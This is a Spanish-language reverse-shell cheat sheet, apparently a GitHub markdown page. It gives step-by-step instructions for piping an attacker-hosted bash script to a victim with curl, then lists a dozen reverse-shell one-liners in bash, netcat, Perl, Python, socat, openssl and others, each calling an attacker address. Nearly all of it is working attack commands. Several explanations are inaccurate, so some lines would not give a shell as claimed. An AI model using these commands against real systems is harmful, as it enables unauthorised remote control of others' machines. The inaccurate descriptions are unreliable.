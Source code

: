 ```yaml
---
title: Revershell cheet sheat
published: true
---
```


- Primeramente debes tener ejecucion remota de comandos, 
- luego verificar si hay curl  , lo haces con " which curl"
- luedo de la maquina atacante te abres un servidor http y creas un 
- index.html:

    	```
    	#!/bin/bash
    	bash -i >& /dev/tcp/10.10.10.10/443 0>&1
	```

- y te pones en escucha en la maquina atacante con:

	```
    	nc -nlvp 443 
    	```
- y ejecutas en la maquina victima lo siguiente 
 
	```
    	curl 10.10.10.10 | bash
	```
- obtendras una revershell(realizar tratamiento de la consola):

***********************
******MAS FORMAS*****
***********************

- Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y 
- el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    	```
    	nc -e /bin/sh X.X.X.X 443
    	```

- Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer 
- una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

	```
	bash -i >& /dev/tcp/X.X.X.X/443 0>&1 
	```

- Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
 
	```
    	perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    	```
Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```
    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    	```
---

Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443. 
El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    	```
    	socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    	```
Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    	```
    	ssh -R 443:localhost:443 user@X.X.X.X  
    	```
Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```
    	telnet X.X.X.X 443
    	```
 Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```
    	mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    	```

 Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```
    	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    	```

 Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```
    	openssl s_client -quiet -connect X.X.X.X:443
    	```

 Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
   
    	```
    	exec 5<>/dev/tcp/X.X.X.X/443
    	```

 Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    	```
    	xterm -display X.X.X.X:0
    	```
